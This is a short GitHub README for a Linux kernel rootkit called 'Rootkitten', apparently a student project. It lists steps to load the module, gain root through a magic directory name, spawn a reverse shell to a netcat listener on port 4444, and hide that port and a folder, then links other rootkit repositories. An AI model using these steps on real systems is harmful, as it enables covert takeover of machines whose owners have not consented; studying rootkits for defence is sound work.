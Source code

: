 # SomethingAwesome-Rootkitten

## commands to run

to compile
make 

## preparation

have a netcat listener listening on port 4444

## inserting module

sudo insmod rootkitten.ko

## Getting root

mkdir GIMMEROOT

## spawning reverse shell

mkdir spawn


## checking for hidden tcp ports (4444 is hidden)

netstat -t

## folder that is hidden: src folder


### full list of reference code
https://github.com/SourceCodeDeleted/rootkitdev-linux
https://github.com/rootfoo/rootkit
https://github.com/f0rb1dd3n/Reptile
https://github.com/gg7/gentoo-kernel-guide
https://github.com/xcellerator/linux_kernel_hacking

